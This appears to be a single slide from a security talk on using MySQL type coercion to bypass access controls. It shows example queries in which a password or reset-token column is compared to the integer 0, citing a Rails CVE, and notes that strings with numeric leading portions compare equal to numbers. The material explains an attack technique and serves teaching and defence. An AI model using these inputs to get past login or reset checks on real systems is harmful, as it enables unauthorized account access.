

# Using type coercion to bypass Access Controls in MySQL
Login Bypass:
SELECT * FROM user WHERE username = ‘admin’ AND password = ‘acbd18db4cc2f85cedef654fccc4a4d8’;
SELECT * FROM user WHERE username = ‘admin’ AND password = 0;
Password Reset Bypass: rails CVE-2013-0233
SELECT * FROM password_reset WHERE token = ‘5ebe2294ecd0e0f08eab7690d2a6ee69’;
SELECT * FROM password_reset WHERE token = 0;
String equivalence for numeric “portions”
SELECT * FROM password_reset WHERE token = ‘3AB’ AND token = 3;